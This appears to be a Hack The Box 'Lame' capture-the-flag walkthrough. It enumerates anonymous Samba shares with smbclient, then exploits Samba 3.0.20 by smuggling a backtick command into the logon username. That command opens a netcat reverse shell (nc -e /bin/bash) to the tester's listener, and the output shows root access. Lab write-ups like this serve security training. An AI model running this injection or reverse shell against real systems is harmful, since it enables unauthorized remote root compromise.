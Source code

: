 ```bash

┌──(alien0ne㉿kali)-[~/Desktop/hackthebox/lame]
└─$ smbclient -L 10.129.224.74
protocol negotiation failed: NT_STATUS_CONNECTION_DISCONNECTED
┌──(alien0ne㉿kali)-[~/Desktop/hackthebox/lame]
└─$ smbclient -L 10.129.224.74 --option="client min protocol=NT1"
Enter WORKGROUP\alien0ne's password: 
Anonymous login successful

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	tmp             Disk      oh noes!
	opt             Disk      
	IPC$            IPC       IPC Service (lame server (Samba 3.0.20-Debian))
	ADMIN$          IPC       IPC Service (lame server (Samba 3.0.20-Debian))
Reconnecting with SMB1 for workgroup listing.
Anonymous login successful

	Server               Comment
	---------            -------

	Workgroup            Master
	---------            -------
	WORKGROUP            LAME
┌──(alien0ne㉿kali)-[~/Desktop/hackthebox/lame]
└─$ smbclient //10.129.224.74/tmp --option="client min protocol=NT1"
Enter WORKGROUP\alien0ne's password: 
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> 

```
* Once you connect to the share start the nc lister on your remote machine.

```bash
┌──(alien0ne㉿kali)-[~]
└─$ nc -lvnp 1334
listening on [any] 1334 ...
```

* Now run the logon command and you get the shell.

```bash

smb: \> logon "./=`nohup nc -e /bin/bash 10.10.14.4 1234`" "password"

```

```sql

┌──(alien0ne㉿kali)-[/home/kali/Desktop/hackthebox]
└─$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.4] from (UNKNOWN) [10.129.224.74] 33335
id
uid=0(root) gid=0(root)
cd /root
wc -c root.txt
33 root.txt
```
